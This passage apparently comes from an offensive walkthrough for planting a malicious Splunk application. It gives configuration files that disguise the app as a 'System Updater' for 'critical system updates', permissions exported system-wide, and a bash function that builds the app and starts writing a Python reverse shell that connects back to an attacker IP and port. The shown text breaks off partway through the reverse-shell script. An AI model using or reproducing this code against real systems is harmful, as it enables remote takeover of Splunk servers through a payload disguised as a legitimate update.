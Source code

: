 #### app.conf - Application Metadata
```ini
# default/app.conf - Application configuration and metadata

[install]
state = enabled
is_configured = true

[ui]
is_visible = true
label = System Updater

[launcher]
author = System Administrator
description = Critical system updates and maintenance
version = 1.0.0

[package]
id = system_updater
check_for_updates = false
```

#### Application Permissions (default.meta)
```ini
# metadata/default.meta - Application permissions and access control

[inputs]
access = read : [ * ], write : [ admin ]
export = system

[transforms]
access = read : [ * ], write : [ admin ] 
export = system

[app/install]
access = read : [ * ], write : [ admin ]
export = system

[]
access = read : [ * ], write : [ admin ]
export = system
```

### Application Deployment Process

#### Manual Application Creation
```bash
# Create malicious Splunk application structure
create_malicious_app() {
    local app_name="system_updater"
    local attacker_ip="10.10.14.15"
    local attacker_port="4443"
    
    echo "[+] Creating malicious Splunk application: $app_name"
    
    # Create directory structure
    mkdir -p $app_name/{bin,default,metadata,static}
    
    # Create Python reverse shell
    cat > $app_name/bin/reverse_shell.py << EOF
#!/usr/bin/env python3
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$attacker_ip",$attacker_port))
```